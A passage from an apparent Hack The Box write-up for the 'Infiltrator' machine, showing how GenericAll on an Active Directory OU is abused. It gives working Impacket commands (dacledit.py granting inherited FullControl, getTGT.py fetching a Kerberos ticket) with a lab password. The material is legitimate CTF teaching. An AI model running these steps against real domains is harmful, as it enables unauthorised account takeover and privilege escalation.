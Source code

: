 ### Auth as E.Rodriguez

#### Background

D.Anderson has `GenericAll` on the Marketing Digital organization unit (OU). An OU is a way to group and manage users (and computers and other objects) within active directory. It allows for admins to say that all users in this specific area should have these rights.

[DACL Trouble: GenericAll on OUs](https://www.adamcouch.co.uk/dacl-trouble-genericall-on-ous/) from Adam Couch goes into how a penetration tester can abuse this privilege on an OU. The idea is to configure the OU such that all members of the OU get the `GenericAll` permission from a user that I control. Once I have `GenericAll` over a user, I can change their password or add a shadow credential.

The [BloodHound Support](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312347318043-GenericAll#h_01HM28BQ0587GFX2DM54GCQZ2M) documentation has a similar bit about abusing `GenericAll` on an OU.

#### HTB Note

This entire path has a reset so that other players don’t get the benefit. I have to do all these commands very quickly in order to get it to work. I’ll walk through them with explanation, but the best way to manage it is with a pasteable script that runs all the commands together.

#### Modify OU

Both of the posts above show how to use PowerShell to change the OU discretionary access control list (DACL). I don’t have PowerShell access to Infiltrator yet. [This post from SynActiv](https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory) shows how to do it with `dacledit.py` (from [Impacket](https://github.com/SecureAuthCorp/impacket)):

![image-20240906092735187](/img/image-20240906092735187.png)

This is exactly what I want to do. If I try using password, it fails:

```

oxdf@hacky$ dacledit.py -action write -rights FullControl -inheritance -principal d.anderson -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] unsupported hash type MD4

```

That’s due to the limitations on the D.Anderson account. I’ll get a ticket with Kerberos:

```

oxdf@hacky$ getTGT.py 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.anderson.ccache

```
